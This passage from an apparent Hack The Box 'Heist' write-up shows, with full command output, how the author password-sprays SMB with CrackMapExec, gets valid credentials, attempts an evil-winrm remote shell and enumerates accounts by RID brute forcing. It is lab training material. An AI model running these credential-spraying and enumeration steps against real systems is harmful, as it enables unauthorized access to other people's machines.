 We get a third password that we can add to our [password file](./files/passwords.txt):

```
stealth1agent 
```

Let use CrackMapExec to see if our password work with the hazard or administrator user:

```
$ crackmapexec smb 10.129.96.157 -u hazard -p ~/ctf/htb/machines/heist/files/passwords.txt   
SMB         10.129.96.157   445    SUPPORTDESK      [*] Windows 10.0 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)
SMB         10.129.96.157   445    SUPPORTDESK      [-] SupportDesk\hazard:$uperP@ssword STATUS_LOGON_FAILURE 
SMB         10.129.96.157   445    SUPPORTDESK      [-] SupportDesk\hazard:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE 
SMB         10.129.96.157   445    SUPPORTDESK      [+] SupportDesk\hazard:stealth1agent 

```
No luck on administrator, but we did get credentials for hazard:stealth1agent.

We can try connecting to the machine with evil-winrm:

```
$ evil-winrm -i 10.129.96.157 -u hazard -p stealth1agent

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

Error: An error of type WinRM::WinRMAuthorizationError happened, message is WinRM::WinRMAuthorizationError
```

That didnt work. Let's use crackmap exec to enumerate more users using RID brute forcing:

```
$ crackmapexec smb 10.129.96.157 -u hazard -p stealth1agent --rid-brute                          
SMB         10.129.96.157   445    SUPPORTDESK      [*] Windows 10.0 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)
SMB         10.129.96.157   445    SUPPORTDESK      [+] SupportDesk\hazard:stealth1agent 
SMB         10.129.96.157   445    SUPPORTDESK      [+] Brute forcing RIDs
SMB         10.129.96.157   445    SUPPORTDESK      500: SUPPORTDESK\Administrator (SidTypeUser)
SMB         10.129.96.157   445    SUPPORTDESK      501: SUPPORTDESK\Guest (SidTypeUser)
SMB         10.129.96.157   445    SUPPORTDESK      503: SUPPORTDESK\DefaultAccount (SidTypeUser)
SMB         10.129.96.157   445    SUPPORTDESK      504: SUPPORTDESK\WDAGUtilityAccount (SidTypeUser)
SMB         10.129.96.157   445    SUPPORTDESK      513: SUPPORTDESK\None (SidTypeGroup)
SMB         10.129.96.157   445    SUPPORTDESK      1008: SUPPORTDESK\Hazard (SidTypeUser)
SMB         10.129.96.157   445    SUPPORTDESK      1009: SUPPORTDESK\support (SidTypeUser)
SMB         10.129.96.157   445    SUPPORTDESK      1012: SUPPORTDESK\Chase (SidTypeUser)
SMB         10.129.96.157   445    SUPPORTDESK      1013: SUPPORTDESK\Jason (SidTypeUser)

```
